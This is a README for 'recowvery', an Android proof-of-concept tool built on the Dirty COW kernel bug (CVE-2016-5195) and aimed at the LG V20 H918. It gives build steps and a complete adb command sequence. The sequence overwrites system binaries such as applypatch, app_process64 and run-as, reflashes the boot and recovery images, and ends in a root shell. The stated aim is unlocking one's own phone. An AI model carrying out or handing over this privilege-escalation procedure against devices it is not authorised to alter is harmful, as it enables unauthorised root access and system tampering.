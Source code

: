 # CVE-2016-5195
CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

## recowvery, an exploit tool for flashing recovery on "secure" systems with **unlocked** bootloaders
This means you, LG V20 H918 (T-Mobile)

This repository is set up for building inside an Android OS build environment.  
Please add it to your `local_manifests` folder as `dirtycow.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<manifest>
	<remote  name="jc" fetch="ssh://git@github.com/jcadduono/" />
	<project path="external/dirtycow" name="android_external_dirtycow" remote="jc" revision="android-6.0" />
	<project path="external/libbootimg" name="android_external_libbootimg" remote="jc" revision="android-6.0" />
</manifest>
```

build using:

```sh
lunch your_device-eng

make -j5 dirtycow recowvery-applypatch recowvery-app_process64 recowvery-run-as
```

## Usage:

### Building:


### Running:
```sh
adb push dirtycow /data/local/tmp
adb push recowvery-applypatch /data/local/tmp
adb push recowvery-app_process64 /data/local/tmp
adb push recowvery-run-as /data/local/tmp

adb shell

$ cd /data/local/tmp
$ chmod 0777 *
$ ./dirtycow /system/bin/applypatch recowvery-applypatch
"<wait for completion>"
$ ./dirtycow /system/bin/app_process64 recowvery-app_process64
"<wait for completion, your phone will look like it's crashing>"
$ exit

adb logcat -s recowvery
"<wait for it to tell you it was successful>"
"[CTRL+C]"

adb shell reboot recovery
"<wait for phone to boot up again, your recovery will be reflashed to stock>"

adb shell

$ getenforce
"<it should say Permissive, adjust source and build for your device!>"

$ cd /data/local/tmp
$ ./dirtycow /system/bin/run-as recowvery-run-as
$ run-as exec ./recowvery-applypatch boot
"<wait for it to flash your boot image this time>"

$ run-as su
#
"<play around in your somewhat limited root shell full of possibilities>"
```
